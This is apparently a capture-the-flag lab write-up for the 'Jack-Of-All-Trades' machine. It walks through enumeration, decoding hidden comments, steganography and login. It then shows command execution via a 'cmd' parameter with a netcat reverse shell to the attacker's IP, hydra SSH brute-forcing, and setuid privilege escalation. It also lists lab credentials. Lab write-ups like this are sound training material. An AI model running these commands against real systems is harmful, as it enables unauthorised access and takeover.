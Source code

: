 # Jack-Of-All-Trades Write-up - Easy

## Nmap

```
nmap -sC -sV <ip> -p-
```

Open ports:
- http: 22. Apache httpd 2.4.10 ((Debian))
- ssh: 80. OpenSSH 6.7p1 Debian 5.

None of the versions appear to be vulnerable.


## HTML page

Strangely, it seems the usual ports for http and ssh have been reversed. Firefox attempted to block the connection to the webserver on port 22, so I had to change the blocker settings in about:config in order for it to allow the connection.

The source code for the home page contains the comment:
```
UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== 
```

Putting this into the base64 command returns the decoded text as:
```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```
So now we have a password **u?WtKSraq**


## Gobuster

```
gobuster dir -e -u http://<ip>:22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

Interesting directories:
- **/recovery.php**
- **/assets**

recovery.php contains a login page, with the displayed message *Hello Jack! Did you forget your machine password again?..*. Viewing the source code finds the comment:

```
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ= 
```

Through some trial and error and the *CyberChef* tool, I managed to decode the comment with base32, followed by hex, and finally ROT13. This gave the message as:

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

The link leads to a Wikipedia page on Stegosauria, so I went back to the /assets directory and downloaded the images to look for hidden content.


## Steganography

```
wget http://<ip>:22/assets/stego.jpg
steghide extract -sf stego.jpg 
```

Using the password from the home page's source code as the passphrase, a *creds.txt* file was extracted from the image. It reads:
```
Hehe. Gotcha!

You're on the right path, but wrong image!
```

Oops. I repeated this for the other images in the /assets directory, and finally found:
```
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

This now allows me to login into the site at /recovery.php with these credentials.
The text on the page reads *GET me a 'cmd' and I'll run it for you Future-Jack.*


## RCE & Privilege Escalation to jack

I added a 'cmd' parameter to the site and immediately got code execution. 
```
http://<ip>:22/nnxhweOV/index.php?cmd=nc <my_ip> <port> -e /bin/bash
```

Using netcat I was then able to get a reverse shell on my machine. Now stabilise it:
```
python -c "import pty; pty.spawn('/bin/bash')"
Ctrl-Z
stty raw -echo; fg
reset
```

I then found an interesting password list in /home: **jacks_password_list**. I downloaded this onto my machine and used it to brute force ssh.

```
hydra -l jack -P jacks_password_list 10.10.216.3 ssh -s 80
```

Now we have the credentials! ***jack : ITMJpGGIqg1jn?>@***.
This revealed the first user flag in the image user.jpg.


## Privilege escalation to root

I tried the usual escalation vectors, and found an interesting setuid binary **/usr/bin/strings**. This let me run the following command:

```
strings /root/root.txt
```
And this gave me the root flag :)

I did briefly attempt to get a shell as root by reading /etc/shadow, but the hash wasn't easily crackable so I figured this wasn't intended.
